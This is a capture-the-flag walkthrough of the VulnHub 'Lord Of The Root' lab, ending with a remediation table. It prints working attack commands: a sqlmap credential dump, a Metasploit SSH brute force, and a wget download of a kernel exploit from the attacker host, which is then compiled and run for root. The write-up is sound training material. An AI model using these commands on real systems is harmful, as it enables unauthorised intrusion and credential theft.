


# Lord Of The Root: 1.0.1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux (Ubuntu 14.04) |
| **Credentials** | smeagol : MyPreciousR00t |
| **Root Flag** | Flag.txt (screenshot only) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/lord-of-the-root_101,128/) |

## Attack Summary

Port knock (1,2,3) → HTTP :1337 → robots.txt Base64 decode → login portal → SQLi (sqlmap) → SSH brute (smeagol) → kernel exploit EDB-39166 → root

## Methodology

1. Network discovery
2. Port knocking to open HTTP
3. Web enumeration, robots.txt decode
4. SQL injection credential dump
5. SSH brute force
6. Kernel LPE (Ubuntu 14.04)

---

## Step 1: Network Discovery

Only SSH (22) is open initially — the HTTP port is hidden behind a knock sequence.

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -p- -A 192.168.1.101
```

SSH banner reveals the hint: **"Knock Friend To Enter" / "Easy as 1 2 3"**.



---

## Step 2: Port Knocking

The banner gives away the sequence. Knock against ports 1, 2, 3:

```bash
nmap -r -Pn -p 1,2,3 192.168.1.101
```

Rescan to confirm HTTP opened:

```bash
nmap -p- -A 192.168.1.101
# Port 1337/tcp  open  http
```



---

## Step 3: Web Enumeration

Browse `http://192.168.1.101:1337`. Unremarkable page. Check `robots.txt`:

```
http://192.168.1.101:1337/robots.txt
```

It contains a Base64-encoded value. Decode twice:

```bash
echo "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3aHM=" | base64 -d | base64 -d
# 978345210
```

Browse `http://192.168.1.101:1337/978345210/index.php` — login portal found.

---

## Step 4: SQL Injection

Dump all databases and credentials with sqlmap:

```bash
sqlmap -u 'http://192.168.1.101:1337/978345210/index.php' \
  --forms --dbs --risk=3 --level=5 --threads=4 --batch
```

Dump user table:

```bash
sqlmap -u 'http://192.168.1.101:1337/978345210/index.php' \
  --forms -D lordoftheroot --tables --batch
sqlmap -u 'http://192.168.1.101:1337/978345210/index.php' \
  --forms -D lordoftheroot -T Users --dump --batch
```

Save output to `user.txt` and `pass.txt`.


---

## Step 5: SSH Brute Force

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.1.101
set user_file /root/user.txt
set pass_file /root/pass.txt
set stop_on_success true
exploit
```

Valid credentials: **smeagol : MyPreciousR00t**

```bash
ssh smeagol@192.168.1.101
python -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Step 6: Privilege Escalation (Kernel Exploit)

```bash
lsb_release -a
# Ubuntu 14.04
searchsploit ubuntu 14.04 local privilege
# EDB-ID 39166 — overlayfs LPE
```

On the attacker machine, serve the exploit:

```bash
searchsploit -m 39166
python3 -m http.server 8000
```

On target:

```bash
wget http://192.168.1.108:8000/39166.c
gcc 39166.c -o shell
chmod +x shell
./shell
id
# uid=0(root)
```

---

## Step 7: Root Flag

```bash
cd /root
cat Flag.txt
```


---

## Lessons Learned

1. **Port knocking** — obscurity on its own is not security; enumeration hints in banners expose knock sequences
2. **SQLi in login forms** — parameterised queries prevent credential dumps via sqlmap
3. **Kernel patching** — Ubuntu 14.04 (kernel < 3.19.0-21) is vulnerable to overlayfs LPE; keep systems updated
4. **Credential reuse** — database passwords were valid for SSH

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQL Injection | Use prepared statements / parameterised queries |
| Weak passwords in DB | Enforce password policy, use a password manager |
| Outdated kernel (overlayfs LPE) | Apply security updates, upgrade Ubuntu |
| Port knocking hint in banner | Remove descriptive SSH banners |
